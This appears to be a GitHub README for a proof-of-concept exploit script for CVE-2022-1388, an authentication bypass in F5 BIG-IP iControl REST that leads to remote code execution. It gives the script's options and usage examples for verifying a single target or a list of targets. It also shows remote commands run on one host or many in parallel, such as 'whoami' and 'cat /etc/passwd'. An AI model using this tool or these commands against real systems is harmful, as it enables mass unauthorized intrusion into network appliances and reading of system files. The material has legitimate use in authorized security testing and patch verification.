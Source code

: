 # F5 BIGIP iControl REST Auth Bypass RCE

## USAGE

```bash
usage: CVE-2022-1388.py [-h] [-u URL] [-c COMMAND] [-f FILE] [-m MODE] [-t THREADS]

CVE-2022-1388 F5 BIG-IP iControl REST Auth Bypass RCE POC, detecting results save to
results.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url, eg: http://127.0.0.1:8080
  -c COMMAND, --command COMMAND
                        remote execute command, eg: -c 'whoami'
  -f FILE, --file FILE  load target urls from file
  -m MODE, --mode MODE  set verify or exploit mode, default poc. eg: -m <poc|exp>
  -t THREADS, --threads THREADS
                        if set file option, will exploit with threads,default 10.
                        eg: -t 15
```

### 单个url验证

./CVE-2022-1388.py -u <url>
![](imgs/poc.png)

### 批量验证

./CVE-2022-1388.py -f <urls.txt>
![](imgs/from_file.png)

### 单个url执行命令

```bash
./CVE-2022-1388.py -u <url> -c 'cat /etc/passwd'
```

![](imgs/exp_cmd.png)

### 批量执行命令

```bash
./CVE-2022-1388.py -f <urls.txt> -c 'whoami'
```
